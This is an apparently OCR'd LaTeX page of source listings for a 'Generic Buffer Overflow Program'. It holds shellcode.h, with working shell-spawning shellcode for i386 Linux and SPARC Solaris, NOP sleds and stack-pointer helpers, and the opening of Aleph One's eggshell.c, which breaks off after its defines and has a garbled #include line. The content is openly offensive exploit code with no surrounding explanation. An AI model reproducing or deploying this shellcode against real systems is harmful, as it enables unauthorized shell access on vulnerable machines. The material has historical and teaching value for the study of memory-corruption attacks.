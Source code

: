 \documentclass[10pt]{article}
\begin{document}
{%
\section{Generic Buffer Overflow Program}


\begin{lstlisting}[caption=shellcode.h]
#if defined(__i386__) && defined(__linux__)
#define NOP_SIZE        1
char nop[] = "\x90";
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88"
  "\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd"
  "\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && \
        defined(__svr4__)

#define NOP_SIZE        4

char nop[]="\xac\x15\xa1\x6e";

char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f"
  "\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c"
  "\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82"
  "\x10\x20\x3b\x91\xd0\x20\x08"
  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) 
{
  __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE        4
char nop[]="\xac\x15\xa1\x6e";

char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f"
  "\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c"
  "\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82"
  "\x10\x20\x3b\xaa\x10\x3f\xff"
  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82"
  "\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) 
{
  __asm__("or %sp, %sp, %i0");
}

#endif
\end{lstlisting}

\begin{lstlisting}[caption=eggshell.c]
/*
 * eggshell v1.0
 *
 * Aleph One / aleph1@underground.org
 */

#include 
#include stdio.h
#include "shellcode.h"
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048


\end{lstlisting}}
\end{document}
